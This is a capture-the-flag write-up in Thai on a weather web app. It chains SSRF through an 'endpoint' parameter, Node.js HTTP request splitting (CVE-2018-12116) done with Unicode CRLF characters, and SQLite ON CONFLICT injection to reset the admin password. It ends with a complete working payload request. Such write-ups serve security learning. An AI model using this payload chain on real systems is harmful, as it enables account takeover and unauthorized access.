 

![alt text](image-2.png)

![alt text](image-3.png)

หน้านี้จะเรียก api/weather 

![alt text](image-1.png)

![alt text](image-5.png)

flag จาก isAdmin

![alt text](image-4.png)

isAdmin จาก username == admin และ register ไม่ได้เช็ค user is exist ?

register จะภูกเรียกผ่าน ip 127.0.0.1 เท่านั้น


เราจะ update password ของ username admin เนื่องจากต้องการ มี username เป็น admin เพื่อผ่าน isAdmin 

และใน schema username   VARCHAR(255) NOT NULL UNIQUE ทำให้ไม่สารถมี user เดียวกัน 2 row ได้

หา command ที่ใช้ duplicate key UPDATE บน sqlite

With SQLite you cannot do the simple MySQL INSERT on duplicate key UPDATE:
```
INSERT INTO `table` (id, name, price, quantity) VALUES(1, 'test', '2.50', 164) ON DUPLICATE KEY UPDATE `quantity` = 164, `price` = '2.50'
```
Instead, you have to do what is called an `upsert`.

The concept is very similar to the MySQL example above. The differences being you have to specify which column is the indexed/key column (unique) and then state the DO UPDATE:
```
INSERT INTO users(username,score) VALUES('Johnny', 388) ON CONFLICT(username) DO UPDATE SET score = '388';
```

https://write.corbpie.com/how-to-do-insert-with-an-update-on-duplicate-using-sqlite/


เนื่องจาก register จะถูกเรียกผ่าน ip 127.0.0.1 เท่านั้น

เราจะ SSRF ผ่าน api/weather บน parameter endpoint

![alt text](image.png)

ทดลองเรียก api/weather ด้วยรูปแบบต่างๆ

เงื่อนไขหลัก คือ /register เป็น post method ซึ่ง require body ดังนั้น ท่าทั่วๆไปคงไม่ไหว

"nodeVersion": "v8.12.0" ใน packet.json จะมีช่องโหว่ HTTP request splitting (CVE-2018-12116)

https://github.com/subatiq/Unicode-SSRF



## 🎯 เงื่อนไขหลักสำหรับ HTTP Request Splitting

### 1. **แอปพลิเคชันต้องรับ User Input**
- แอปต้องยอมรับข้อมูลจากผู้ใช้ (GET/POST parameters, headers, etc.)
- ข้อมูลนี้ต้องสามารถควบคุมได้โดยผู้โจมตี

### 2. **ข้อมูล User Input ต้องไปอยู่ใน HTTP Request Path/Headers**
- แอปต้องนำ user input ไปใส่ในส่วนของ:
  - Request URL/Path
  - HTTP Headers 
  - Query parameters
- **ไม่ใช่** request body

### 3. **แอปต้องทำ Outbound HTTP Request**
- แอปต้องส่ง HTTP request ไปยัง server อื่น
- มักเป็น internal services, APIs, หรือ backend systems

### 4. **ไม่มีการ Validate/Sanitize Input**
- แอปไม่ได้ filter หรือ escape control characters
- ไม่มีการตรวจสอบ CR (`\r`) และ LF (`\n`)

ตัวอย่าง

![alt text](image-6.png)

https://hackerone.com/reports/409943


```
Request 1: GET /127.0.0.1:88/ HTTP/1.1
           Host: 127.0.0.1:88

Request 2: POST /register HTTP/1.1
           Host: 127.0.0.1:88
           Content-Type: application/x-www-form-urlencoded
           Content-Length: [X]

           username=admin&password=...

Request 3: GET [ข้อมูลที่เหลือจาก original request]
```

![alt text](image-7.png)

```
POST /api/weather HTTP/1.1
Host: 83.136.253.59:57461
Content-Length: 345
sec-ch-ua-platform: "Windows"
Accept-Language: en-US,en;q=0.9
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: */*
Origin: http://83.136.253.59:57461
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"endpoint":"127.0.0.1:80/ĠHTTP/1.1čĊHost:Ġ127.0.0.1:80čĊčĊPOSTĠ/registerĠHTTP/1.1čĊHost:Ġ127.0.0.1:80čĊContent-Type:Ġapplication/x-www-form-urlencodedčĊContent-Length:Ġ89čĊčĊusername=admin&password=%27)ĠONĠCONFLICTĠ(username)ĠDOĠUPDATEĠSETĠpasswordĠ=%27123456%27;čĊčĊGETĠ","city":"Chiang Mai","country":"TH"}
```

![alt text](image-8.png)